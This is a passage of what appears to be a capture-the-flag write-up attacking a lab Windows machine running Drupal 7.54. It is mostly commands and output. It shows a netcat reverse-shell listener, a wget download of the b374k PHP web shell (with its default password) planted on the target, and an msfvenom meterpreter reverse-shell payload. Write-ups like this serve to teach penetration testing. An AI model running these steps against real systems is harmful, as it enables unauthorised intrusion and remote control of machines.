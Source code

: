 Now I can catch the shell with netcat nc -lvp 1234

Connection from [10.10.10.9] port 1234 [tcp/*] accepted (family 2, sport 49214)
dir
 Volume in drive C has no label.
 Volume Serial Number is 605B-4AAA

Directory of C:\inetpub\drupal-7.54

Now to get the user flag ..

cd C:\Users\dimitris\Desktop
 Directory of C:\Users\dimitris\Desktop

19/03/2017 09:04 �� <DIR> .
 19/03/2017 09:04 �� <DIR> ..
 19/03/2017 09:06 �� 32 user.txt
 1 File(s) 32 bytes
 2 Dir(s) 31.040.098.304 bytes free

Got User Flag!

    Note: when I was trying to catch the shell with metasploit, the session would die instantly I don’t know what was causing this so I moved on without metasploit.

I was trying to find a way to upload files to the machine so I can get a windows reverse shell but I couldn’t figure it out, so I used one of b374k’s php shell (2.7). https://raw.githubusercontent.com/BlackArch/webshells/master/php/b374k-2.7.php

I download the file with wget

wget -O payload1.txt https://raw.githubusercontent.com/BlackArch/webshells/master/php/b374k-2.7.php

Now payload1.txt contains the content of the b374k’s shell so if we run php drupal.php again http://10.10.10.9/ssec.php should be a login page the password of all b374k shells is b374k
unless you change it. Which I recommend you do to prevent other users from using your shell. I created and uploaded a windows shell through the upload function in b374k’s shell

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.9 LPORT=4444 -f exe > ssec.exe

Directory of C:\inetpub\drupal-7.54

10/09/2017 09:06 �� <DIR> .
10/09/2017 09:06 �� <DIR> ..
19/03/2017 01:42 �� 317 .editorconfig
19/03/2017 01:42 �� 174 .gitignore
19/03/2017 01:42 �� 5.969 .htaccess
19/03/2017 01:42 �� 6.604 authorize.php
19/03/2017 01:42 �� 110.781 CHANGELOG.txt
19/03/2017 01:42 �� 1.481 COPYRIGHT.txt
19/03/2017 01:42 �� 720 cron.php
19/03/2017 01:43 �� <DIR> includes
19/03/2017 01:42 �� 529 index.php
19/03/2017 01:42 �� 1.717 INSTALL.mysql.txt
19/03/2017 01:42 �� 1.874 INSTALL.pgsql.txt
19/03/2017 01:42 �� 703 install.php
19/03/2017 01:42 �� 1.298 INSTALL.sqlite.txt
19/03/2017 01:42 �� 17.995 INSTALL.txt
19/03/2017 01:42 �� 18.092 LICENSE.txt
19/03/2017 01:42 �� 8.710 MAINTAINERS.txt
19/03/2017 01:43 �� <DIR> misc
19/03/2017 01:43 �� <DIR> modules
19/03/2017 01:43 �� <DIR> profiles
19/03/2017 01:42 �� 5.382 README.txt
19/03/2017 01:42 �� 2.189 robots.txt
19/03/2017 01:43 �� <DIR> scripts
19/03/2017 01:43 �� <DIR> sites
10/09/2017 09:06 �� 73.802 ssec.exe
10/09/2017 08:58 �� 57.538 ssec.php
19/03/2017 01:43 �� <DIR> themes